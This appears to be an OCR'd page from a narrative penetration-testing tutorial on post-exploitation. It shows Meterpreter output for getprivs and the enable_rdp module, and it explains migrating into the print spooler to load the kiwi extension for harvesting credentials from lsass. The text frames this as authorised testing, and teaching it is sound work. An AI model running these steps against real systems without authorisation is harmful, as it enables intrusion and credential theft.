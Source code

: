 # Post-exploitation and looting

Alright! Now that you have administrator access, you can do quite a bit.

```plain text
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

With these privileges, you can enable remote desktop…

```plain text
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
```

Great. Now that’s done, you need the password of a user on the PC to log on. And yes, Cathy and your boss gave you permission to do this. All you have to do is find the printer spool service and migrate to it, then load the kiwi extension. Why the spool service specifically? It can interact with lsass.exe (the Windows security authority process) and start up again in case you crash it. 
